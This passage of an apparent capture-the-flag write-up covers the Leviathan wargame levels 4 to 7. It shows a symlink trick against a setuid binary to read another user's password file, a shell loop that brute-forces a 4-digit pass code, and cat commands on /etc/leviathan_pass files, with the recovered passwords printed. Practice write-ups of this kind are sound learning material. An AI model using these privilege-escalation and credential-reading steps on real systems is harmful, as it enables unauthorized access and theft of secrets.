 Inside the hidden directory (you always run `ls -la`, right?) we have a bin file.
It's executable, so let's run it

{{< highlight console >}}
leviathan4@melinda:~$ ./.trash/bin 
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010 
{{< / highlight >}}

I'm guessing we need to decode that from the current binary encoded string to text. This
gives us `Tith4cokei`. Testing it out takes us to

# Level 5 -> 6 #

We have a binary called `leviathan5` that is suid `leviathan6`. Upon running it,
we get a message that file `tmp/file.log` cannot be found. If you create one, it 
will open it, print its contents, close it, and then delete it. So let's give the 
old symlink method a try:

{{< highlight console >}}
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5 
UgaoFee4li
{{< / highlight >}}

Result.

# Level 6 -> 7 #

We need a 4 digit pass code to access this. I opted for brute force. For 4 digits
that's by far the simplest and quickest way. After looking at the disassembly, we
see that it will call `/bin/sh` and drop us to a shell, so we don't need an exit condition.

{{< highlight console >}}
leviathan6@melinda:~$ for i in $(seq -f "%04g" 0 9999); do echo $i && ./leviathan6 $i > /dev/null; done
0000
0001
.
.
7123
{{< / highlight >}}
It stops there. Because we redirect to /dev/null, we need to ctrl+c and then enter
the last printed number to get the password

{{< highlight console >}}
leviathan6@melinda:~$ ./leviathan6  7123
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
{{< / highlight >}}

The final flag for level 7 is

    Well Done, you seem to have used a *nix system before, now try something more serious.
    (Please don't post writeups, solutions or spoilers about the games on the web. Thank you!)  
